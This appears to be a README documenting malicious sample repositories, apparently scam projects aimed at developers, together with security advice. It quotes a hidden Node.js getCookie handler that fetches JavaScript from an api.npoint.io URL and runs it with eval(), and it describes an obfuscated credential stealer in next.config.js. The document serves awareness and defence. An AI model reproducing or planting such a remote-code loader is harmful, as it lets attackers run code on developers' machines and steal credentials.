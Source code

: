 ## Additional Security Resources

- **OWASP Top Ten** - Common security vulnerabilities and best practices.
- [**NPM Security Best Practices**](https://docs.npmjs.com/cli/v8/using-npm/security)
- [**Python Security Guide**](https://docs.python.org/3/howto/security.html)

## Final Recommendations

- Keep dependencies updated and remove unused ones.
- Use two-factor authentication (2FA) on developer accounts.
- Be cautious when installing packages from unknown sources.
- Always review the `package.json`, `requirements.txt`, or `setup.py` before installing.

By staying vigilant, using proper tools, and following security best practices, you can reduce the risk of falling for malicious scams or executing harmful code.

## Repositories

### 1. Real Estate Project

Located in `real_estate/` directory. The malicious payload is hidden in `real_estate/server/controllers/userController.js`.

The malware:
- Makes a request to api.npoint.io to fetch obfuscated JavaScript code
- Executes the fetched code using eval() in Node.js environment
- Located at the end of userController.js in a getCookie function:

```javascript
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
  const result = await axios.get("https://api.npoint.io/ac2916e3f543effa2edd");
  eval(result.data.cookie);
})();
```

### 2. Real Estate New

Located in `real_estate_new/` directory. Another version of the real estate project with malicious code.

### 3. Multify Staking Project

Located in `multify_staking/` directory. The malicious code is directly embedded in `multify_staking/next.config.js`.

The malware:
- Contains heavily obfuscated JavaScript code at the start of the file
- The obfuscated code appears to be a credential stealer
- Takes up most of the file, with only the actual Next.js config at the end:

```javascript
// Large obfuscated malicious code block here...

/** @type {import('next').NextConfig} */
const nextConfig = {
  reactStrictMode: true,
}

module.exports = nextConfig
```
